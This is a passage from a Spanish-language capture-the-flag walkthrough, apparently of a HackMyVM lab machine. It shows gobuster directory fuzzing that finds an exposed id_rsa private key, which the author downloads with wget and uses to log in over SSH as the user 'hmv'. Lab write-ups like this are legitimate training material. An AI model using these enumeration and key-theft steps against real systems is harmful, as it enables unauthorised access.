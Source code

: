 Vemos que no hay nada interesante, por lo que vamos a realizar un poco de `fuzzing`.

### Gobuster

```shell
gobuster dir -u http://<IP>/softyhackb4el7dshelldredd/ -w <WORDLIST> -x html,php,txt -t 100 -k -r 
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.28.16/softyhackb4el7dshelldredd/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                ../Downloads/combined_words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/id_rsa               (Status: 200) [Size: 1876]
/index.html           (Status: 200) [Size: 26]
/index.html           (Status: 200) [Size: 26]
/.                    (Status: 200) [Size: 26]
Progress: 343102 / 513392 (66.83%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 343364 / 513392 (66.88%)
===============================================================
Finished
===============================================================
```

Vemos que nos descubrio el archivo `id_rsa` que este si puede ser el real, por lo que nos lo vamos a descaragar:

```shell
wget http://<IP>/softyhackb4el7dshelldredd/id_rsa
```

Ahora si lo leemos veremos que si es un `id_rsa` por lo que le pondremos los permisos necesarios.

```shell
chmod 600 id_rsa
```

Ahora probaremos a conectarnos con un usuario que nos llamo bastante la atencion en la lista de `users.txt` llamado `hmv`:

```shell
ssh -i id_rsa hmv@<IP>
```
